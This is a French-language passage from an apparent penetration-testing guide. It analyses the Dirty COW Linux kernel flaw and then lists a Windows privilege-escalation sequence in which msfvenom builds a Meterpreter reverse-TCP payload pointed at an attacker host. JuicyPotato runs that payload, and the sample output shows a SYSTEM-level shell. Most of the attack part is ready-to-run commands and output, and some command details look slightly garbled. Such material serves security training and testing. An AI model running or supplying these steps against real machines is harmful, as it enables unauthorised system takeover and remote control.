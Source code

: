 **Analyse :** Cette commande exploite la vulnérabilité Dirty COW (CVE-2016-5195), une faille de condition de concurrence dans le noyau Linux qui permet à un utilisateur non privilégié d'obtenir des privilèges root. L'exploit fonctionne en modifiant le fichier /etc/passwd pour ajouter un nouvel utilisateur avec des privilèges root. Cette vulnérabilité affecte de nombreuses versions du noyau Linux et a été largement exploitée dans des attaques réelles.

**Commande pour exploiter une vulnérabilité d'élévation de privilèges Windows :**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4446 -f exe > juicypotato.exe
upload juicypotato.exe C:\\Temp\\
upload JuicyPotato.exe C:\\Temp\\
shell
cd C:\\Temp
JuicyPotato.exe -l 1337 -p C:\\Temp\\juicypotato.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

**Sortie typique :**
```
[*] Uploading juicypotato.exe to C:\Temp\
[*] Uploaded 7168 B of 7168 B (100.0%): juicypotato.exe -> C:\Temp\
[*] Completed upload of juicypotato.exe to C:\Temp\
[*] Uploading JuicyPotato.exe to C:\Temp\
[*] Uploaded 347648 B of 347648 B (100.0%): JuicyPotato.exe -> C:\Temp\
[*] Completed upload of JuicyPotato.exe to C:\Temp\

Process 2 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\lowpriv>cd C:\\Temp
cd C:\\Temp

C:\Temp>JuicyPotato.exe -l 1337 -p C:\\Temp\\juicypotato.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
JuicyPotato.exe -l 1337 -p C:\\Temp\\juicypotato.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
[*] Testing {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83} 1337
[+] authresult 0
[*] CreateProcessWithTokenW OK

[*] Sending stage (200262 bytes) to 192.168.1.10
[*] Meterpreter session 2 opened (192.168.1.5:4446 -> 192.168.1.10:49159) at 2025-04-02 19:15:00 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

**Analyse :** Cette séquence de commandes exploite une vulnérabilité d'élévation de privilèges Windows connue sous le nom de "Juicy Potato". Elle fonctionne en abusant du service DCOM et des jetons d'impersonation pour exécuter un code arbitraire avec les privilèges SYSTEM. L'exploit a réussi, établissant une nouvelle session Meterpreter avec les privilèges SYSTEM. Cette technique est efficace sur de nombreuses versions de Windows Server où le service est mal configuré.
